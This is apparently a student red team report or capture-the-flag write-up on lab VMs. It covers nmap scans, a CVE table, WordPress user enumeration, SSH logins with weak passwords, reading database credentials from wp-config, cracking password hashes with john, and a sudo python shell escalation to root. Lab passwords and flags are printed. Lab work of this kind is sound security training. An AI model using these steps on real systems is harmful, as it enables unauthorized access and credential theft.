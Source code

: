 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for full network scan:  
`nmap -sP 192.168.1.1-255`  
![](images/nmap_full_scan.png)

Nmap scan results for each machine reveal the below services and OS details:
- Target 1  
`$ nmap -sV 192.168.1.110`  
![](images/nmap_target_1.png)

- Target 2  
`$ nmap -sV 192.168.1.115`  
![](images/nmap_target_2.png)

This scan identifies the services below as potential points of entry:
- Target 1

| Port     | Service      | Service Description and Version              |
|----------|--------------|----------------------------------------------|
| 22/tcp   | ssh          | OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) |
| 80/tcp   | http         | Apache httpd 2.4.10 ((Debian))               |
| 111/tcp  | rpcbind      | 2-4 (RPC #100000)                            |
| 139/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |
| 445/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |

- Target 2  

| Port     | Service      | Service Description and Version              |
|----------|--------------|----------------------------------------------|
| 22/tcp   | ssh          | OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) |
| 80/tcp   | http         | Apache httpd 2.4.10 ((Debian))               |
| 111/tcp  | rpcbind      | 2-4 (RPC #100000)                            |
| 139/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |
| 445/tcp  | netbios-ssn  | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  |

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1  
`nmap -sV -script vulners --script-args mincvss=7.0 192.168.1.110`
![](images/target1_vulns.png)

**Top Ranked:**  

| Service                                       | Severity | CVE             |
|-----------------------------------------------|----------|-----------------|
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 10.0     | [CVE-2001-0554](https://vulners.com/cve/CVE-2001-0554) |
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 8.5      | [CVE-2015-5600](https://vulners.com/cve/CVE-2015-5600) |
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 7.5      | [CVE-2020-16088](https://vulners.com/cve/CVE-2020-16088) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5      | [CVE-2021-26691](https://vulners.com/cve/CVE-2021-26691) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-7679](https://vulners.com/cve/CVE-2017-7679) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-7668](https://vulners.com/cve/CVE-2017-7668) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-3169](https://vulners.com/cve/CVE-2017-3169) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-3167](https://vulners.com/cve/CVE-2017-3167) |  

- Target 2    
`nmap -sV -script vulners --script-args mincvss=7.0 192.168.1.115`
![](images/target2_vulns.png)

**Top Ranked:**

| Service                                       | Severity | CVE             |
|-----------------------------------------------|----------|-----------------|
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 10.0     | [CVE-2001-0554](https://vulners.com/cve/CVE-2001-0554) |
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 8.5      | [CVE-2015-5600](https://vulners.com/cve/CVE-2015-5600) |
|  OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0) | 7.5      | [CVE-2020-16088](https://vulners.com/cve/CVE-2020-16088) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5      | [CVE-2021-26691](https://vulners.com/cve/CVE-2021-26691) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-7679](https://vulners.com/cve/CVE-2017-7679) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-7668](https://vulners.com/cve/CVE-2017-7668) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-3169](https://vulners.com/cve/CVE-2017-3169) |
|  Apache httpd 2.4.10 ((Debian))               | 7.5	     | [CVE-2017-3167](https://vulners.com/cve/CVE-2017-3167) |

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: `flag{b9bbcb33e11b80be759c4e844862482d}`  
    - **Exploit Used**  
      - Weak Password Exploit  
      - Found list of WordPress users (`michael` and `steven`):  
      `wpscan --url http://192.168.1.110/wordpress -eu`  
      ![](images/wpscan.png)  
      - The user `michael` had an insecure password `michael`  
      - Gained access to VM via ssh  
      `ssh michael@192.168.1.110`  
      ![](images/ssh_michael_access.png)  
      - Tried to do a blanket search for files named `flag*`, but this gave no direct matches. This search was run from `/`. The `2>/dev/null` filters out all the permission denied errors.  
      `find . -name flag* 2>/dev/null`  
      - Given we are exploiting WordPress, suspicion was that the flag would be located some where in the WordPress web applicaiton directory `/var/www`. Ran the following wild card search to find any matches:    
      `grep -r flag1 *`  
      - This will grep files recursively to find anything with `flag1`.  
      - We found the flag located in `/var/www/html/service.html`.  
      ![](images/flag1_search.png)  
  - `flag2`: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`
    - **Exploit Used**
      - Weak Password Exploit
      - Found list of WordPress users (`michael` and `steven`):    
      `wpscan --url http://192.168.1.110/wordpress -eu`  
      ![](images/wpscan.png)
      - The user `michael` had an insecure password `michael`
      - Gained access to VM via ssh  
      `ssh michael@192.168.1.110`  
      ![](images/ssh_michael_access.png)  
      - Tried to do a blanket search for files named `flag*`, and this proved successful. This search was run from `/`. The `2>/dev/null` filters out all the permission denied errors.
      `find . -name flag* 2>/dev/null`  
      ![](images/flag2_search.png)  
      - We found the flag located in `/var/www/flag2.txt`.    
      ![](images/flag2.png)  
  - `flag3`: `flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - Weak Password Exploit
      - Exploited WordPress configuration file:      
      ![](images/wpconfig.png)
      - Accessed database using credentials found in `wp_config.php`.  
      Username: `root`  
      Password: `R@v3nSecurity`
      - Gained access to MySQL database  
      `mysql -u root -p R@v3nSecurity`  
      ![](images/mysql_auth.png)  
      - Showed what databases exist  
      ![](images/show_databases.png)  
      - Selected `wordpress` database  
      ![](images/use_wordpress.png)  
      - Showed what tables exist.  
      ![](images/show_tables.png)  
      - Select rows from `wp_users`    
      ![](images/select_from_wp_users.png)  
      - Select rows from other tables  
      - Selected rows from `wp_posts` and found flag stored in table  
      ![](images/flag3.png)  
  - `flag4`: `flag4{715dea6c055b9fe3337544932f2941ce}`  
    - **Exploit Used**
      - Weak Password Exploit  
      - Brute force attack  
      ![](images/wpconfig.png)  
      - Get hashes stored in `wp_users`    
      `michael:$P$$8jRvZQ.VQcGZ1DeiKToCQd.cPw5XCe0`  
      `steven:$P$8kJVD9jsxx/loJoqNsURgHiaB23j7W/`  
      ![](images/pwds.png)  
      - Create a file to store hashes for password crack  
      - Use `john` to crack passwords  
      ```
      $ john pwd_hash.txt
      $ john -show pwd_hash.txt
      steven: pink84
      michael: michael
      ```  
      - Secure user shell of steven  
      ```
      ssh steven@192.168.1.110
      Enter password: pink84
      ```  
      - There was a hint given about using Python to escalate privileges to `root`  
      ```
      sudo python -c 'import pty; pty.spawn("/bin/bash");'
      ```  
      - This script escalated privileges to root and gave the flag  
      ![](images/escalated_root.png)
